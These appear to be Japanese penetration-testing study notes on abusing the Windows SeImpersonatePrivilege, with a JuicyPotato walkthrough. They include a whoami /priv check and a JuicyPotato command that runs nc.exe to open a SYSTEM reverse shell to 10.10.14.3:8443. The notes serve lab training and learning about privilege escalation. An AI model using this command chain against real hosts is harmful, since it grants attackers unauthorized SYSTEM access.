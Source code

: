 SeImpersonatePrivilege（偽装権限）
- 他のプロセスのトークンを「偽装」して使用できる特権
	- 通常、管理者アカウントにのみ与えられる
	- `CreateProcessWithTokenW`などのAPIで利用される
	- システム強化中に無効化・削除されることがある

正当な利用ケース
- 一部の正規プログラムがこの特権を使って権限昇格を行う
	- 例：WinLogonプロセスからSYSTEMトークンを取得し、自プロセスをSYSTEMとして実行する

 悪用ケース（ポテト系攻撃）
- 攻撃者がSeImpersonateを利用してSYSTEMトークンを盗用し、権限昇格
	- ポテトスタイル（例：Juicy Potato, PrintSpoofer）は、トークンを渡してくれるSYSTEMプロセスに接続させる手法
	- SYSTEMで動作している別プロセスを「騙して」トークンを奪う

 どんなときに狙えるか？
- サービスアカウントのコンテキストで動作している場合に遭遇しやすい
	- 例：ASP.NETのWebシェル、Jenkins経由のRCE、MSSQL経由のコマンド実行
	- これらのケースではSeImpersonateを持っていることが多く、昇格のチャンスがある

 攻撃時のチェックポイント
- サービスアカウントやRCEの初期シェルを得たら、最初に `whoami /priv` でSeImpersonateの有無を確認
	- もしあるなら、それは「簡単な特権昇格の入り口」になりうる

### JuicyPotato
- JuicyPotato は、Windows Server 2019 および Windows 10 build 1809 以降では機能しない
- まずJuicyPotato.exeバイナリをダウンロードし、これとnc.exeをターゲットサーバーにアップロードする
- JuicyPotato.exeのオプション
	- -l : COMサーバーのリスニングポート
	- -p : 起動するプログラム（cmd.exe）
	- -a : cmd.exeに渡される引数
	- -t : createprocess呼び出し

**ユーザー権限の確認**
```shell-session
whoami /priv
--------------------------------------------------------------------------------   
PRIVILEGES INFORMATION                                                             
----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
```

**JuicyPotatoの実行**
- CreateProcessWithTokenW関数とCreateProcessAsUser関数の両方を試すようにツールに指示している
	- これらの関数には、それぞれSeImpersonateまたはSeAssignPrimaryToken特権が必要
```shell-session
c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
       
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                          
```
